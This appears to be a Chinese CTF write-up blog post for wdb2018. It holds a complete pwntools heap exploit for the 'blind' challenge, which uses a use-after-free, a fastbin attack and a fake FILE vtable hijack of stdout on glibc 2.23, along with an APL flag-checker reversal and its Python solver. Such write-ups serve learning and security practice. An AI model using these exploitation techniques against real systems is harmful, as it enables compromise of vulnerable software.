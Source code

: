 ```yaml
---
layout: post
title:  "wdb2018"
date:   2019-01-02 13:01:05 +0000
categories: jekyll update
---
```


## blind

申请0x68的内存，可以分配到0x70的fastbin，所以可以利用libc的0x7F做fastbin attack。

漏洞是UAF。

PIE没开，其他都开了。

got表不可写，有后门，思路就是覆盖stdout，通过fastbin attack，覆盖指针实现任意写，写一个伪造的文件，顺便把counter的限制弄大点。

然后利用got表分配到一块内存，可以从0x602000写输入，因为`read`只读内存不会segfault会返回错误并且不会消耗输入流，这里可以覆盖。

然后盖stdout，puts会调用stdout的虚表，能劫持到后门。`2.23 libc`不会check虚表位置

exp

```python
from pwn import *

g_local=True
context.log_level='debug'
e = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")
if g_local:
	sh = process('./blind')#env={'LD_PRELOAD':'./libc.so.6'}
	#gdb.attach(sh)
else:
	sh = remote("106.75.20.44", 9999)

FAKE_CHUNK_GOT = 0x601fcd
FAKE_CHUNK_BSS = 0x602045 - 8
def new(idx, content):
	sh.send("1\n")
	sh.recvuntil("Index:")
	sh.send(str(idx) + "\n")
	sh.recvuntil("Content:")
	sh.send(content)
	sh.recvuntil("Choice:")

def release(idx):
	sh.send("3\n")
	sh.recvuntil("Index:")
	sh.send(str(idx) + "\n")
	sh.recvuntil("Choice:")

def change(idx, content):
	sh.send("2\n")
	sh.recvuntil("Index:")
	sh.send(str(idx) + "\n")
	sh.recvuntil("Content:")
	sh.send(content)
	sh.recvuntil("Choice:")

#64 bits
fake_file = '\x00' * 0x88
fake_file += p64(0x602C00)
fake_file = fake_file.ljust(0xd8, '\x00')
fake_file += p64(0x602800 + 0xE0 - 0x38) + p64(0x4008E3) # fake_vtable_addr
#put to 0x602800

assert len(fake_file) == 0xE8

new(0, "A\n")
new(1, "B\n")

release(0)
release(1)
release(0)

new(2, p64(FAKE_CHUNK_BSS) + "\n")
new(3, "consume idx 1\n")
new(4, "consume idx 0\n")
new(5, '\x00' * 0x13 + p64(0x602888) + p64(0) * 6 + p32(0x80000000) + "\n")
#now idx 0 point to 0x602888, others are 0
#bins are empty

change(0, fake_file[0x88:] + "\n")

new(1, "A\n")
release(1)
change(1, p64(FAKE_CHUNK_GOT)[:7] + "\n")

new(2, "consume idx 1\n")
sh.send("1\n")
sh.recvuntil("Index:")
sh.send("3\n")
sh.recvuntil("Content:")
sh.send('\x00' * 0x20 + p64(0x602800)[:7] + "\n")

sh.interactive()
```

## APL

PaidCTF有一道很类似的题，APL整理一样大概是这样

```
{⍵(~⍵)/('No_Please_continue')('Yes,This_is_flag')}
(∊(41(41)0+140)
(⎕UCS('xxxxxxxxxxxxxxxxxxxxxxx'))146) # 一堆乱码是结果，后面加个146，前面再加点东西
{+/⍺≠ # compare with result
33+ # +33 foreach
2⊥ # to nums
(1(5)×8)⍴ # 8 40 reshape(width 40, height 8)
∊ # flatten
{a≠8↑(1,a←(8⍴2)⊤⍵)}¨ # c ^ ((c >> 1) | 0x80)
2⊥ # convert to 40 nums
8(+/⍴⍳(7*2)-⌊9.1⌊⍴'FlagIsWhat')⍴ # 8 40 reshape
10⊖ # upward rotate 10
⊖ # reverse horizontal as axis
⌽ # reverse vertical as axis
(20 16)⍴ # reshape
(1+(|¯8)⍴1)⊤ # convert to vertical bin matrix
⎕UCS(⍵)}
'YourFlagIsWhat?'
```

也没啥技巧，这题不难，就是慢慢查，慢慢学，会Google，[https://n9n.gitlab.io/apl/web/index.html](https://n9n.gitlab.io/apl/web/index.html)里慢慢撸，就能做出来。APL是从右到左结合性的函数式编程语言，很奇葩，我是没见过真的有哪个程序员用这玩意，然后每一步做了什么我都写在上面注释里了，从下往上读，然后再做逆操作就好。。。

然后那个结果我是通过APL的在线解释器搞的，直接丢Python会有编码问题。。。

有些括号里面的东西就是吓唬人的，不如直接扔进去eval一下直接看，而不是人肉解释，比方说`(1+(|¯8)⍴1)`和`(1(5)×8)`

然后就没啥坑了，下面是求解的Python

```python
import itertools
map_tab = []
def get_map_tab():
	for c in xrange(0,0x100):
		map_tab.append(c ^ ((c >> 1) | 0x80))

def rev_map_tab(num):
	return map_tab.index(num)

def byte_to_bits(num):
	assert num < 0x100
	ret = []
	i = 7
	while i >= 0:
		if num & (1 << i) == 0:
			ret.append(0)
		else:
			ret.append(1)
		i -= 1
	return ret

def parse_to_matrix(width, height, bits):
	assert width * height == len(bits)
	ret = []
	for y in xrange(0,height):
		ret.append(bits[y * width:(y+1) * width])
	return ret

def bits_to_num(bits):
	assert len(bits) == 8
	ret = 0
	for b in bits:
		ret <<= 1
		ret += b
	return ret

def rotate_left(line, off):
	return line[off:] + line[:off]

def transpose(bits):
	width = len(bits[0])
	height = len(bits)
	ret = []
	for y in xrange(0,width):
		ret.append(map(lambda x : x[y], bits))
	return ret

get_map_tab()
res = [181,283,187,213,256,36,35,286,36,232,225,203,286,286,285,96,226,222,288,157,35,34,33,288,34,75,69,40,169,36,35,286,36,81,60,107]
res.append(146)
res = [181,181,140] + res
print len(res)
res = map(lambda x: x-33, res)

res = map(byte_to_bits,res)
res = list(itertools.chain.from_iterable(res))
res = transpose(parse_to_matrix(8, 40, res))

res = list(itertools.chain.from_iterable(res))

res = parse_to_matrix(8, 40, res)
res = map(bits_to_num, res)
res = map(rev_map_tab, res)

res = transpose(map(byte_to_bits,res))

res = list(itertools.chain.from_iterable(res))
res = parse_to_matrix(16, 20, res)

res = rotate_left(res, 10)
res = map(lambda x : x[::-1], res)
res = res[::-1]

res = list(itertools.chain.from_iterable(res))
res = parse_to_matrix(40, 8, res)

res = transpose(res)
res = map(bits_to_num, res)
print res
print "".join(map(chr,res))
```

ctftime上有个PaidCTF那题的WP，那个解释的比较详细，这两道题其实也很类似